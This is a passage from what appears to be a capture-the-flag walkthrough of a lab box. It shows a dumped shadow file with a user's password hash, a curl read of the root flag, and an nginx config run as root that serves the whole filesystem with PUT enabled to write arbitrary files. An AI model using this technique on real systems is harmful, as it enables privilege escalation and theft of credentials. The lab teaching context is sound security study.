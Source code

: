 ```
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-timesync:*:19405:0:99999:7:::
pollinate:*:19405:0:99999:7:::
sshd:*:19405:0:99999:7:::
syslog:*:19405:0:99999:7:::
uuidd:*:19405:0:99999:7:::
tcpdump:*:19405:0:99999:7:::
tss:*:19405:0:99999:7:::
landscape:*:19405:0:99999:7:::
fwupd-refresh:*:19405:0:99999:7:::
usbmux:*:19474:0:99999:7:::
lxd:!:19474::::::
activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
_laurel:!:19667::::::

```

This is enough to get the flag and solve the box:

```
activemq@broker:~$ curl localhost:1337/root/root.txt
8a207d68************************

```

#### File Write

nginx can also handle PUT requests which write files. I’ll update the config to include enabling PUTs:

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}

```

I’ll also need to change the port. I don’t have a way to kill the running server on 1337, and if I try to run with the same port, nginx will fail to listen and abort.
